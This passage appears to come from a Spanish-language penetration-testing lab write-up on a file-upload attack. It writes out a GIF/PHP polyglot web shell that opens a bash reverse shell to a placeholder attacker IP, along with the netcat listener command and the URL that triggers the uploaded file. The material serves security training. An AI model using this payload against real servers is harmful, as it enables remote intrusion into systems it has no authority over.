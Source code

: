 Se prepara un archivo híbrido denominado:

\begin{configbox}
shell.gif.php
\end{configbox}

El fichero comienza con la cabecera \texttt{GIF89a}, propia de archivos GIF, seguida de código PHP encargado de iniciar una conexión inversa hacia la máquina atacante.

\begin{configbox}
GIF89a
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/4444 0>&1'");
?>
\end{configbox}

La dirección \texttt{<IP\_ATACANTE>} debe sustituirse por la IP real de la máquina Kali dentro del segmento de red correspondiente.

\subsubsection*{Preparación del listener}

Antes de ejecutar el payload, se prepara un listener en la máquina atacante:

\begin{bashbox}
nc -lvnp 4444
\end{bashbox}

\subsubsection*{Ejecución del archivo subido}

Tras subir correctamente el archivo, se invoca desde el navegador o mediante \texttt{curl}:

\begin{configbox}
http://<IP_SERVIDOR>:8080/uploads/shell.gif.php
\end{configbox}

Si el servidor interpreta el archivo como PHP, se ejecuta el código incluido en el payload y se establece una conexión inversa hacia la máquina atacante.

\subsubsection*{Resultado esperado}

El listener recibe una conexión entrante desde el servidor víctima y proporciona una shell con el usuario del servicio web:


